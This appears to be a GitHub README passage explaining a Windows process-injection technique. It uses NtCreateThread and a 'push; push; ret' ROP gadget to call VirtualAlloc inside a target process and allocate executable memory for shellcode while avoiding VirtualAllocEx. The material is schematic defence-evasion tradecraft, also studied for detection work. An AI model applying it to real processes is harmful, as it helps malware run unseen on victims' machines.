 ### Overview

This technique uses `NtCreateThread` with a specially crafted `CONTEXT` structure to execute functions via ROP (Return-Oriented Programming) gadgets.

### ROP Gadget: push r1; push r2; ret

The core gadget we search for in the target process:
```assembly
push r1    ; Push first register onto stack
push r2    ; Push second register onto stack
ret        ; Return (jump to address on top of stack)
```

**Execution Flow**:
```
1. RIP points to gadget address
2. r1 = ExitThread address
3. r2 = Target function address
4. Arguments in RCX, RDX, R8, R9 (x64 calling convention)

Stack after push r1; push r2:
[ExitThread]  ← RSP after push r2
[Function]    ← What ret will jump to

5. ret pops Function address and jumps to it
6. When Function returns, it pops ExitThread and jumps to it
7. Thread exits cleanly
```

### Complete Injection Flow

#### Step 1: Allocate Memory
```c
CreateRemoteThreadViaGadget(
    RCX = 0x60000,              // lpAddress
    RDX = shellcode_size,       // dwSize
    R8  = MEM_COMMIT|MEM_RESERVE,  // flAllocationType
    R9  = PAGE_EXECUTE_READWRITE,   // flProtect
    Function = VirtualAlloc,
    ExitThread = ExitThread
)
```

**What happens**:
- NtCreateThread creates a thread with RIP = gadget address
- gadget: push ExitThread; push VirtualAlloc; ret
- ret jumps to VirtualAlloc
- VirtualAlloc(0x60000, size, ...) allocates memory
- VirtualAlloc returns to ExitThread
- Thread exits

**Result**: Memory allocated at 0x60000 without VirtualAllocEx!
